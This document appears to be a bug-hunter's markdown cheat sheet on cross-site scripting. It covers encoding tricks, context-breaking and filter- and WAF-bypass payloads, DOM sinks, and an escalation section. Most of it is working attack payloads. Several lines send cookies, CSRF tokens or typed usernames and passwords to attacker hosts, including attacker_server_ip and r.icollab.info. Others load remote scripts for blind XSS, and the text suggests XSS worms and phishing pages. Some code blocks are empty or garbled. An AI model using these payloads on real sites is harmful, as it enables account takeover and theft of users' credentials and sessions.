


# Encoding
- **HTML-encode:** Prevent browser from parsing/interpreting a character.
  - `&#xHEX`: `"`  →  `&#x22`
  - `&#DEC`: `"`  →  `&#34`
  - Character reference:
    - `<`  →  `&lt;`
    - `>`  →  `&gt;`
    - `"`  →  `&quote;`
    - `:`  →  `&colon;`
    - `&`  →  `&amp;`
    - `'`  →  `&apos;`
- **URL-encode:** Send non-ASCII characters in URL.
  - `%HEX`: `"`  →  `%22`
  - ehsan%0anext+line  →
    ```bash
    ehsan
    next line
    ```
- **Unicode:** Show non-ASCII charaters.
  - `\uxxxx`: `"`  →  `\u0022` (in JavaScript)

*Tip: Sometimes both web-server and web-application URL-decode the data respectively, so double URL-encode data are valid.*

# Golden tips
1. Browsers automatically HTML-decode the HTML attributes.  →  *Use HTML-encode in HTML attribute.*
   - We **can't** escape the context, by HTML-decoded character, like ``.
   ```html
   
   ```
2. Browsers parse the unicode in JavaScript.  →  *Use Unicode in JavaScript.*
3. Browsers do not parse HTML tags if they are encoded.  →  *Don't use HTML-encode HTML tags.*

*Tip: Use https://jsfiddle.net/ to test JavaScript codes.*


# Detection
```html
<title INSIDE-TAG>OUTSIDE-TAG</tilte>
```

### Simple payload 
```html
<script>alert(origin)</script>

<svg/onload=alert(origin)> 
```

### Outside Tag
##### Non-Executable
- Like `<style>`, `<title>`, `<noembed>`, `<template>`, `<noscript>`, `<textarea>`, `<!-- comment -->`
- Close the tag, then it will be Outside tag.
  ```html
  </tag>
  </tAg/x>            # Bypasses
  </tag{space}>
  </tag//>
  </tag%0a>
  </tag%0d>
  </tag%09>
  ```
- Example
  ```html
  --><svg/onload=alert(origin)>                        <!--     <!-- xxx -->
  <!--><svg/onload=alert(origin)-->                    <!-->xxx-->
  <%00script>alert(origin)<%00/script>                 <!--     <h2> Does not exist record with id 123 ! </h2>                   -->
  ```
##### Executable
- Don't HTML-encode `<`. (3rd golden tip)
  ```html
  <{tag}{filler}{event_handler}{?filler}={?filler}{javascript}{?filler}{>,//,Space,Tab,LF}    # Line Feed
  <sCriPt{filter}sRc{?filte}={?filter}{url}{?filter}{>,//,Space,Tab,LF}
  <A{filter}hReF{?filler}={?filter}JavaScript:{javascript}{?filter}{>,//,Space,Tab,LF}
  ```
  ```html
  
  <a href="%26%2374;avascript%26colon;alert(origin)">test</a>
  <a href="%26%2374;avascript%26colon;\u0061lert(origin)">test</a>          # Unicode a in alert based on 2nd golden tip.
  ```
- `{filter}`  →  seprator
- `{?filter}`  →  Fuzz to find appropriate seprator
  ```html
  {space}
  //
  /
  %0a
  %0d
  %09
  %09%09
  /~/
  ```
- Test cases
  ```html
  <x/xxx
  <x/~/xxx
  <x/~/onxxx
  ```
- Example
  ```html
  </h1><script>alert(origin)</script>                    <!--     <h1 id="h1">XSS Gym</h1>                                        -->
                        <!--     <body><div class=container><div id=main><h2>Hello xxx !</h2>    -->
  ```  
- Browser HTML-encode `<` of our payload  →  Use **Double-URL-encode** or **HTML-encode**.
- Web-app filter (blacklist) our tag  →  Fuzz for new tagsbased on [PortSwigger Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
  ```html
  <details open ontoggle=alert(origin)>                  <!--     <h6>Registred phone: test</h6>                                  -->
  <DeTaiLs/OpEn/OnTogglE=alert(origin)>
  <DeTaiLs/OpEn/OnTogglE=print()>
  ```

### Inside Tag
##### Event Handler (onXXX)
- Break the context by HTML-encode `'` to `%26%2339;` or `%26%23x27;` or `%26apos;`. (1st golden tip)
  ```html
  ');alert(origin);//                                    <!--     <tag event_handler="func('$input')">                            -->
  %26%2339;);alert(origin);//                            <!--     <body onload="doSomething('test')">                             -->
  %26%23x27;/alert(origin)/%26%23x27;
  %26apos;-alert(origin)-%26apos;
  %26%23x27;/alert%26%23x28;origin%26%23x29;/%26%23x27;  <!-- ( and ) are filtered with blacklist                                 -->
  
  ');\u{0061}lert(origin)//
  ');print``//
  ``` 
##### Inside `src` attribute (rare condition)
- Bypass whitelist if exists.
  ```html
  <iframe src="https://cvefix.ir/exploit.js">            <!--     <iframe src="$input">                                           -->
  "><svg/onload=alert(origin)>                           <!--            -->
  "></iframe><svg/onload=alert(origin)>                  <!--     <iframe style="display:none" src="/xxx"></iframe>               -->
  "onload="alert(origin)
  ```

##### Inside `srcdoc` attribute
- Based on 1st golden tip, we can HTML-encode the payload.
  ```html
  <iframe srcdoc="<script>alert(origin)</script>">       <!--     <iframe srcdoc="$input">                                        -->
  <iframe srcdoc="%26lt;svg/onload=alert(origin)%26gt;">
  ```

##### Generic attribute
- Code example
  ```html
  <input type="text" value="$input">
  <input type="text" value='$input'>
  <input type="text" value=$input>
  ```
- Break the context, then close the HTML tag. (if there is no context, there is no need to break)
  ```html
  "
  %22
  %2522
  &quot;
  %26quot;
  %2526quot;
  ```
  ```html
  '
  %27
  %2527
  &#39;
  %26%2339;
  %26%2339;
  %2526%252339;
  ```
  ```html
  \'
  \"
  ```
- If it's not possible to close HTML tag (because of `>` filtered or encoded), use a new Event Handlers:
  ```html
  "autofocus/onfocus="alert(origin)                     <!--     <input type="text" name="p08" value="xxx">            -->
  ' autofocus onfocus=alert(origin) '
  ..gym.php/"</form><svg/onload=alert(origin)>          <!--     <form action="/gym.php/xxx" method="POST">            -->
  ```
- Special URL schemes
  ```html
  javascript:alert(origin)                                            <!--     https://example.com/upload_profile_pic?url=IMAGE_URL                            -->
  javascript://%250Aalert(origin)//?1                                 <!--     <a href="https://www.google.com/search?q=brutelogic"><div id="k"></div></a>     -->
  javascript:alert(origin).jpg                                        <!--     <a href="xxx">
  data:text/html,<script>alert(origin)</script>                       <!--     embed small files (JavaScript code) in a URL.                                   -->
  data:text/html;base64,PHNjcmlwdD5hbGVydChvcmlnaW4pPC9zY3JpcHQ+      <!--     bypass XSS filters with base64-encoded                                          -->
  ```

### Javascript Context
- Close `script` tag:
  ```html
  </script>                 <!--     <script>var p11 = 'xxx';</script>                                -->
  </script><svg/onload=alert(origin)>
  </script/x><svg/onload=alert(1)>
  </script><script>alert(1)</script>                       <!--     <script> var searchTerms = 'qwe';                               --> 
  ```
- Break the context:
  ```html
  ';alert(origin);//                                       <!--     <script> var p13 = 'xxx';</script>                              --> 
  '-alert(origin)-'
  ";alert(origin);//                                       <!--     <script> var p14 = "xxx";</script>                              -->
  "-alert(origin)-"
  \'-alert(origin)//                                       <!--     <script> var p15 = 'xxx';</script>                              -->     
  \"-alert(origin)//                                       <!--     <script> var p16 = "xxx";</script>                              -->
  \";alert(origin);//                                      <!--     <script type="text/javascript"> var phone = "123";              -->
  `${alert(origin)};`                                      <!--     <script> var p18 = `xxx`;</script>                              -->
  `-alert(origin)-`                                        <!--     In JS, ` is not a string, and will be executed                  -->
  \`-alert(origin)//
  ${alert(origin)}
  /alert(origin)//\                                        <!--     <script>var p24_1 = 'xxx'; var p24_2 = 'xxx';</script>          -->
  <details open ontoggle=alert(origin)>                    <!--     <script type="text/javascript">var pageName = "test";           -->
  ;alert`1`;//                                             <!--     ( and ) are filtered                                            -->
  ```
- Sometimes you don't need to break somthing. (We can't use HTML-encode, but tab character)
  ```html
  javascript:alert(1)                                      <!--     location.replace("$input")
  javascr%09ipt:\u0061lert(1)
  javascr\tipt:\u0061lert(1) 
  ```

### If nothing works
```html
javascript:"/*\"/*`/*' /*</template>
</textarea></noembed></noscript></title>
</style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>
```
```html


https://www.akamai.com/?xss=%3Cinput/onbeforeinput=%27a=alert,a(1)%27%3E
<details/open/ontoggle=JS>
"><iframe srcdoc="">
"'>%26%2300%3B</form><input+type="s"/onfocus="alert(document.cookie)"/autofocus>
">&#00;</form><input type&#61;"s" onfocus="alert(1)" autofocus>

<svg onload=location=name>
<a/href=javascript&colon;alert()>click
<d3v/onauxclick=[origin].some(confirm)>click
<d3v/onauxclick=(((confirm)))``>click
<x/onauxclick=a=eval,a(prompt(1))>here
<d3v/onmouseleave=[origin].some(confirm)>click
<details/open/ontoggle=(confirm)()//
```
```html
JavaScript://%250Aalert?.(1)//'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->
```
```html
<form><button formaction="javascript:alert(origin)">CliekMe</button></form>
```


# Dom-based
- To check if characters like `<` are encoded or no, find the reflected element by browser **inspector**, then copy the inner HTML, and paste it in a notepad.
  - If `<` is encoded (`&lt;`), We can use unicode in Javascript context
    - `<`  →  `\u003C` or `\74`
    - `>`  →  `\u003E` or `\76`
- Search for **Sink** *(Location that the data is passed into and get executed)* in JavaScript files. 
  ```javascript
  // Javascript execution sinks
  eval(payload)                
  setTimout(payload,100)
  <div onclick="payload">
  
  // Javascript URI sinks
  document.location = payload
  location.href = payload
  location.replace = payload
  window.open = payload
  windows.location = payload
  
  // HTML execution sinks
  htmlElement.innerHTML=payload
  document.write(payload)
  
  // HTML modification to behavior change
  (element).srk
  (element).href   // in certain elements
  ```
- Payloads based on different **Sink**.
  ```javascript
  <svg/onload=alert(origin)>          // Document Sink: document.getElementById('h1').innerHTML = 'XSS ' + p25;
  javascript:alert(origin)            // Location Sink: document.location = p26;
  alert(origin)                       // Execution Sink: document.getElementById('h1').innerHTML = 'XSS ' + eval('n.p=' + p27.toLowerCase());
  ```
- Then reverse and find **Source** *(Location that the data is taken by the application)*. 
  ```javascript
  document.url, document.location.hash
  document.referer, window.name
  Ajax, Websockets, Webmessaging
  Cookies, Localstorage, sessionStorage
  ```
- more sinks (search all for narrow recon, and search last three for wide recon)
  ```javascript
  document.write                  // Works with <script> & Make sure to close the existing elements before running payload.
  document.writeln
  document.domain
  document.location
  someDOMElement.innerHTML        // Doesn't accept <script> or <svg> & Works with  <iframe> + event handlers such as "onerror", "onload"
  someDOMElement.outerHTML
  someDOMElement.insertAdjacentHTML
  someDOMElement.onevent
  eval
  Function
  setTimeout
  setInterval
  setImmediate
  execScript
  crypto.generateCRMFRequest
  ScriptElement.src
  ScriptElement.text
  ScriptElement.textContent
  ScriptElement.innerText
  anyTag.onEventName
  anyElement.innerHTML
  Range.createContextualFragment
  window. location                // In location sinks use javascript: protocol
  window.open                     // In location sinks use javascript: protocol
  document. location
  ```

# PostMessage
- Vulnerability appear in PostMessage receiver.
- Search for `AddEventListener` in JavaScript files, or use Chrome extension (*postMessage-tracker*) to find PostMessage in a web app.
- `origin` of received object should be checked in JavaScript code, before processing it.
- In processing input object, there should be a dangerous sink. (like `windows.open`)
- Practise PostMessage in [here](https://public-firing-range.appspot.com/).

# Methodology
1. Discover hidden parameter
2. Search Tor the reflections, it doesn't matter its stored or not. Work manually on the reflections.
   - Use Burp *Reflector* extension.
3. Download JS and HTML files then grep JavaScript keywords
   - Search for the eventListener `addEventListener\((?:'|\")message(?:'|\")"`
   - Search for the JavaScript sources or sinks
4. Search for the postMessages and try to find misconfiguration
5. Spray everywhere for Blind XSS.
   - Use Burp *Auto-Repeater* extension. (Clip: Hunt > XSS_part_4 > 18")
   - These payloads should be URL-encoded.
    ```html
    "><script%20src=https://www.icollab.info/bxss></script>
    var a=document.createElement("script");a.src="//www.icollab.info/bxss";document.body.appendChild(a);
    ```
6. Tools
   - Dalfox: Powerfull xss scanner and parameter analyzer
   - KXSS: lightweight tool to discover potential reflected XSS
   - GXSS: lightweight tool to checking reflection parameters pin a URL
   - Ayineh: Detect context break strings (private)


# Bypass
### Encode in html atrribute
- Every HTML-encoded value in attribute of HTML tags will automatically HTML-decode by DOM. (Event handler is also an attribute)
- `'` is filtered and context is html attribute tag, we should HTML-encode, then URL-encode it.
  - `'/alert(origin)/'`  =>  `&#x27;/alert(origin)/&#x27;`  =>  `%26%23x27;/alert(origin)/%26%23x27;`
  - `/` is a mathematical function (we can also use `-`), so JavaScript core will run `alert(origin)` to calculate it's result.
    ```html
    %26%23x27;/alert(origin)/%26%23x27;               <!--     <body onload="doSomething('xxx')">    -->
    %26apos;-alert(origin)-%26apos;
    ');\u{0061}lert(1)//                              <!--     <body onload="send('123')">           -->
    ```
- Mix different encodings and capitalizations to confuse the XSS filter.
  ```html
  <scrIPT>location='http://attacker_server_ip/c='+document.cookie;</scrIPT>
  ```
- Use *Double URL-encode* & *HTML-encode* to bypass HTML-encoding. (NOT WORK ALWAYS)
  - Double URL-encode: `"`  =>  `%2522`
  - HTML-encode: `"`  =>  `%26quot;&lt;`

### Filtered HTML tags and events
- Send request to Burp Intruder and use [PortSwigger CheatSheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet):
  - Use **Copy tags to clipboard** for `GET /?search=<§§> HTTP/1.1`  =>  `200` for `body`
  - Use **Copy events to clipboard** for `GET /?search=<body/§onload§=alert(origin)> HTTP/1.1`  =>  `200` for `onresize`
```html
search=<body/onresize=alert(origin)>
search="><svg><animatetransform onbegin=alert(1)>
```
- Use this payload for exploit:
```bash
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

### ASCII Character
 Using the JavaScript `fromCharCode()` function (maps numeric codes to the corresponding ASCII characters) to bypass filtering of special HTML characters, like `'` and `"`.
- This piece of code is equivalent to the string `http://attacker_server_ip/?c=`
  ```html
  String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107,101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)
  ```
- Construct an XSS payload without quotes
  ```html
  <scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47,47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118,101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>
  ```
- Script to create charcode:
  ```html
  <script>
  function ascii(c){
    return c.charCodeAt();
  }
  encoded = "http://attacker_server_ip/?c=".split("").map(ascii);
  document.write(encoded);
  </script>
  ```
  
### Filter Logic Errors
Sometimes applications remove all `<script>` tags in the user input to prevent XSS, but do it only once.
  ```html
  <scrip<script>t>location='http://attacker_server_ip/c='+document.cookie;</scrip</script>t>
  ```

# WAF Bypass
- If the WAF is well-knonw, search in the net to get the bypass.
- If tyou want to discover a paylaod, use these notes:
  - WAFs commonly use regular expression rule-sets which detect malicious inputs
  - Fuzz to discover which part of the payload is matched by the WAF's rule-set.
  - WAFs commonly are not updated, the newer HTML tag is, the more chance you have
    ```html
    <details/open/ontoggle=Js>
    ```
  - If you cannot make alert, try to put the payload after `#`, since this part is not sent to the server.
    ```html
    <details/open/ontoggle="location=location.hash.split('%23')[1]">#javascript:alert(`XSS`)
    <x/onclick=a=eval,a('/'%2blocation.hash)>here</x>#/-alert(origin)
    ```
  - Expand your payload to confuse the WAF
    ```html
    
    <--` --!>
    ```

# Escalate
- Extract Cookie via ``
  ```html
  <script>document.write('')</script>
  ```
- Use XSS to bypass SOP and access to `csrf_token` and do any action that an admin can do like *Add New User*.
- Try to leak P2 information.
- Try to get possible account takeover.
  ```html
  <script>
  function hijacked() {
     var username = document.getElementsByName ("username") [0].value
     var password = document.getElementsByName ("password") [0].value
     img = new Image();
     img.src="https://r.icollab.info/poc.php?u=" + username + "&password=" + password;
     setTimeout('document. forms [0].submit();', 3000);
     return false;
  }
  document. forms [0] .onsubmit = hijacked;
  </script>
  ```
- Try to code an XSS worm in stored XSS.
- Search for the CORS. many main domains accepts the vulnerable subdomain as a valid **Origin**.
- Severity Based on XSS types:
  - **Stored XSS** on a public forum can realistically attack anyone who visits that forum page, so stored XSS is considered the most severe.
  - **Reflected** or **DOM XSS** can affect only users who click the malicious link.
  - **Self XSS** requires a lot of user interaction and social engineering to execute, so they are normally considered lower impact. We can use click-jacking vulnerability to exploit self-XSS.
- Severity Based on the identities of the affected users:
  - System administrators
    - Access to customer data, internal files, API keys
    - RCE by uploading a shell or execute scripts as the admin
  - General user
    - Steal private data like cookies and session tokens 
    - Reads the CSRF token embedded on the victim’s page and sends it to the attacker’s server as a URL parameter named token. So we can execute actions on their behalf by using those tokens to bypass CSRF protection on the site.
      ```javascript
      var token = document.getElementsById('csrf-token')[0];
      var xhr = new XMLHttpRequest();
      xhr.open("GET", "http://attacker_server_ip/?token="+token, true);
      xhr.send(null);
      ```
- Phishing
  - Dynamically alter the page the victim sees, so you can replace the page with a fake login page and trick the user into giving you their credentials (often called ). 
- Redirect
  - Automatically redirect the victim to malicious pages and perform other harmful operations while posing as the legit site, such as installing malware.


# Automate
- Use browser developer tools to look for syntax errors and troubleshoot your payloads.
- Use proxy’s search tool to search server responses for reflected input.
- Use Burp intruder or other fuzzers to conduct an automatic XSS scan on your target.

### Light flow
1. Website as an input goes to FLinks,
2. Flinks makes some URLs, make sure the URLs are alive and have `200` status code,
3. Open each URL to extract parameter lists,
4. Run a parameter fuzzing tool on the URL to discover hidden parameters,
5. Run a tool (GXSS) to detect XSS or reflections,
6. Work on the results manually to discover or verify the XSS.


### Heavy flow
1. Website as an input goes to FLinks,
2. Flinks makes some URLs, make sure the URLs are alive and have 200 status code,
3. Open all URLs to extract parameter lists, merge the lists,
4. Run a parameter fuzzing tool on all URLs to to discover hidden parameters,
5. Run a tool to detect XSS or reflections,
6. Work on the results manually to discover or verify the XSS.


# Tip
- Escape `/` in JSON data:
  - `<script>alert(origin)</script>`  →  `<script>alert(origin)<\/script>`
  - Used in create new question with CSRF, with XSS payload.
- Practise XSS in [here](https://xss-quiz.int21h.jp/).
- XSS types:
  - DOM-based XSS: Result of rendering javascript codes that affect DOM.
  - Normal XSS: Result of parsing HTML tags.
  - Self XSS: Require victims to input a malicious payload themselves, that are not usually accepted as valid submissions because they require social engineering. We can not generate a link and send it to victim to execute the XSS.
- Also check headers for XSS payload, like `User-Agent: Mozilla...Firefox/119.0<svg/onload=alert(origin)>`.
- Always check whether your payload caused syntax errors in the **returned document** or **browser console**.
- Use XSS payloads in different protocols (like XML) via [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-xml).
- Check if web-app accept parameter after `.php` or `.asp`  →  `...php/mamad`
- `\n` in JavaScript  →  new line
- Sometimes we need extra characters befor XSS payload (`mamad<script>alert(origin)</script>`) and sometimes nothing (`https://brutelogic.com.br/gym.php?p24=/alert(origin)//\`), so always test both.
- If there are some inputs, and after submitting the form, a message is displayed (like `Thank you, we will send you a mail`), check for out-of-band XSS.
- `{{ request.username | safe }}` →  It would not escape username to prevent XSS attacks.

# Resource
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
- https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting
- https://owasp.org/www-community/xss-filter-evasion-cheatsheet
